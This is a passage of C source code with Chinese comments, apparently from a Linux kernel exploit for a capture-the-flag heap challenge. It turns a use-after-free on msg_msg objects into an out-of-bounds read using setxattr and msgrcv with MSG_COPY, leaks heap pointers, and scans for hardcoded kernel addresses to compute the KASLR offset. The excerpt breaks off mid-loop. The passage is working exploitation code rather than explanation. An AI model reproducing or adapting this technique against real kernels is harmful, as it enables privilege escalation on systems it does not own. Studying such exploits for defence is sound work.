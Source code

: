 ```c
    }

    /* MSG #1 Q1 */
    msgp->mtype = 1;
    msgp->buf[0] = msgp->buf[1] = 0xcafebabe;
    if (msgsnd(msg_id[1], (void *)msgp, 0x1000 - 0x30 + 0x1000 - 0x8, 0) < 0)
    {
        err_exit("Failed to snd msg3");
    }

    // 使得 MSG#0 Q0为 UAF obj
    add(0xffff);
    delete (0);

    /* 越界读，泄露MSG0 QID 1上的地址，其为MSG1 QID1 */
    memset(buffer, 0, 0x4000);
    buffer[0] = buffer[1] = 0;
    buffer[2] = 0;
    buffer[3] = 0x1000 - 0x30;
    setxattr("/exploit", "ltfall", buffer, 0x40, 0);

    memset(buffer, 0, 0x4000);
    if (msgrcv(msg_id[0], buffer, 0x1000 - 0x30, 0, IPC_NOWAIT | MSG_NOERROR | MSG_COPY) < 0)
    {
        err_exit("Failed to peek msg.");
    }

    msg1_q1 = 0;
    for (int i = 0; i < 0x400; i++)
    {
        if (buffer[i] == 0xc0dec0fe && buffer[i + 1] == 0xc0dec0fe)
        {
            msg1_q1 = buffer[i - 6];
            break;
        }
    }
    if (!msg1_q1)
    {
        err_exit("Failed to find msg_q1.");
    }
    leak_info("msg1_q1", msg1_q1);

    kernel_offset = -1;
    for (int i = 0; i < 0x400; i++)
    {
        if (buffer[i] > kernel_base && (buffer[i] & 0xfff) == 0xa94)
        {
            kernel_offset = buffer[i] - 0xffffffff8104ea94;
            kernel_base += kernel_offset;
            break;
        }
        if (buffer[i] > kernel_base && (buffer[i] & 0xfff) == 0x860)
        {
            kernel_offset = buffer[i] - 0xffffffff81a15860;
            kernel_base += kernel_offset;
            break;
        }
        if (buffer[i] > kernel_base && (buffer[i] & 0xfff) == 0x380)
        {
            kernel_offset = buffer[i] - 0xffffffff81c4f380;
            kernel_base += kernel_offset;
            break;
        }
```